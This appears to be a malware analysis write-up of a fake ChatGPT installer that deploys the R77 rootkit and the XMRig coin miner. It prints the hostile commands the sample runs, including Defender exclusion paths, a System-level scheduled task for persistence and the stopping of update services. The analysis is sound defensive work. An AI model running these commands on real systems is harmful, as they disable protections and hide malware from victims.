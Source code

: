 ```yaml
---
tags: Trojans
---
```

## Investigating A Fake Trojanised ChatGPT Application

This sample is a trojanised ChatGPT installer which can be downloaded as an .msi file from SourceForge. It masquerades as a Free ChatGPT 4 binary but utilises the R77 rootkit to deploy XMRig coinminer malware.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7dd1c425-3a00-49f9-871f-4fa5394e152c)

During installation, the directory 'C:\Program Files (x86)\OpenAI' is created, and process 'C:\Program Files (x86)\OpenAI\Chatgpt Desktop V4\Free Chatgpt V4\Free Chatgpt V4.exe' is executed.

This process spawns cmd.exe with the following command line:
```
C:\Windows\system32\cmd.exe /c "powershell.exe "Add-MpPreference -ExclusionPath “C:\Windows\Temp”,“C:/”,“.exe”""
```
This command will exclude any executables in the path "C:\Windows\Temp" from being looked at by Windows Defender, this is highly suspicious and indicates that something malicious is likely residing in the Temp directory.

Turning our attention to the Temp directory, we observe the following file creation event for the executable "Free Chatgpt V4.exe"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/231c750a-27e8-4481-8cd0-9a40e7edc0dd)

Upon execution of 'Chatgpt Desktop V4.exe' which was installed on the Desktop, the binary 'Free Chatgpt V4.exe' in the Temp directory is executed silently. The same binary also exists as 'C:\Program Files\Google\Chrome\Googleupdater.exe'.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6453e05-2b36-4c3d-b9fe-783443a73bc2)

The binaries present at 'C:\Program Files\Google\Chrome\Googleupdater.exe' and 'C:\Windows\Temp\Free Chatgpt V4.exe' are R77 rootkits

R77’s primary purpose is to hide the presence of other software on a system, making it ideal in this case to hide elements of coin miner malware.

Further commands of interest were identified, but it's difficult to gather further context surrounding them likely due to the nature of the R77 rootkit.

_A scheduled task called "GoogleUpdateXQ" is created as a persistence mechanism to execute the rookit_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe <#sednnxbeh#> IF([System.Environment]::OSVersion.Version -lt [System.Version]"6.2") { schtasks /create /f /sc onlogon /rl highest /ru 'System' /tn 'GoogleUpdateXQ' /tr '''C:\Program Files\Google\Chrome\Googleupdater.exe''' } Else { Register-ScheduledTask -Action
(New-ScheduledTaskAction -Execute 'C:\Program Files\Google\Chrome\Googleupdater.exe') -Trigger (New-ScheduledTaskTrigger -AtStartup) -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DisallowHardTerminate -DontStopIfGoingOnBatteries -DontStopOnIdleEnd -ExecutionTimeLimit (New-TimeSpan -Days 1000)) -
TaskName 'GoogleUpdateXQ' -User 'System' -RunLevel 'Highest' -Force; }
```

_The scheduled task is executed directly via command line_
```
C:\Windows\System32\schtasks.exe /run /tn "GoogleUpdateXQ"
```


_A command is executed which manipulates sleep functions on the host, which is a technique leveraged by coin-mining malware_
```
C:\Windows\System32\cmd.exe /c powercfg /x -hibernate-timeout-ac 0 & powercfg /x -hibernate-timeout-dc 0 & powercfg /x -standby-timeout-ac 0 & powercfg /x -standby-timeout-dc 0
```

_Legitimate Windows services are stopped, this is another indication of coin miner malware_
```
C:\Windows\System32\cmd.exe /c sc stop UsoSvc & sc stop WaaSMedicSvc & sc stop wuauserv & sc stop bits & sc stop dosvc
```

_Further Windows Defender exclusion paths are added_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-MpPreference -ExclusionPath @($env:UserProfile, $env:ProgramFiles) -Force
```

These commands are a strong indication of coin-miner malware, and are similar to samples such as:

[https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de](https://any.run/report/2032ba1561fdfa8dce836c35bc1f89aa9a806c021f1ed7f7c32324b54e450290/8fe9499b-3310-40b9-afd0-51eb2a8184de)

[https://www.joesandbox.com/analysis/1279914/0/lighthtml](https://www.joesandbox.com/analysis/1279914/0/lighthtml)

_Basic Execution Flow_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e48d185e-6604-44bd-aafd-ebe3d87e23eb)



